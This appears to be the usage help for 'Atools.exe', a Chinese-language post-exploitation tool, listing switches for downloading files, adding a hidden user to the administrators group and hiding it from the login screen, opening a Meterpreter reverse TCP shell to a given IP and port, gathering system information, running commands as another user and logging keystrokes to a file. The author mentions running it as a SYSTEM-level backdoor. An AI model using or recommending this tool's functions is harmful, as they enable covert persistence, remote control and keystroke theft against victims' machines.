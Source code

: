 Atools.exe -h | help

Atools.exe -d url |下载

Atools.exe -u user pass |添加一个用户并加入到管理员组

Atools.exe -s user | 禁止交互式登陆时在登陆界面隐藏指定用户

Atools.exe -r ip port |windows/meterpreter/reverse_tcp

Atools.exe -i | 系统信息收集

Atools.exe -e username password command > file.txt | 以其他用户权限运行程序
(为什么会有这个，因为有时候我在system权限下运行的后门不知道为什么会无法执行一些系统命令
各种方法都试过了都没用然后在tools看了个小程序可以就改了改加了进来)

Atools.exe -k 键盘记录 -k -s 停止键盘记录(会在当前目录生成ke.txt)



